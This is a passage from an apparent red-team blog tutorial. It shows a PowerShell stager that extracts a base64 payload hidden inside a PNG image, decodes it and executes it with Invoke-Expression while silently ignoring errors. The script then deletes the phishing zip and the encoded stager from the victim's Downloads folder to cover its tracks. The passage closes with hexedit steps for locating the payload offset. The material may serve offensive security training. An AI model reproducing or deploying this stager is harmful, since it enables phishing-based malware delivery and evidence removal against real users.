 ```powershell
    $embeddedTextHex = $imageBytes[$startOffset..($startOffset + $textLength - 1)]

    # Convert the extracted hexadecimal text to a string
    $embeddedText = [System.Text.Encoding]::ASCII.GetString($embeddedTextHex)

    # Decode the base64-encoded text
    $decodedText = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($embeddedText))

    # Execute the decoded text as a PowerShell script
    Invoke-Expression -Command $decodedText
}
catch {
}

try {
    # Phish clean up
    $textFilePath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("UserProfile"), "Downloads\<zip folder>\<encoded stager>.txt")
    Remove-Item -Path $textFilePath -Force -ErrorAction SilentlyContinue
}
catch {
}

try {
    # Phish clean up
    $zipFolderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("UserProfile"), "Downloads\<phish>.zip")
    Remove-Item -Path $zipFolderPath -Recurse -Force -ErrorAction SilentlyContinue
}
catch {
}

```

**There is alot that can be modified in the script to your preference.** For now we will use hexedit to identify the true injected payload offset and update the script.

``hexedit <injected image>.png``

If you remember the offset that we provided imgInject to inject the payload we can start navigating towards that with the arrow keys. While passing over the bytes with the arrow keys you can see its string correspondance to the right of the screen. **Move over the bytes until the first letter of your base64 encoded payload string is highlited.**

![Hexedit Injected Image](/cybernautblog/redteam_post_2/hexedit_img.png)

When the first letter of the payload string is highlighted view the very bottom of the hexedit terminal to see the offset. This is the offset we want to put in our powershell stager script.

![Offset of payload](/cybernautblog/redteam_post_2/payload_offset.png)
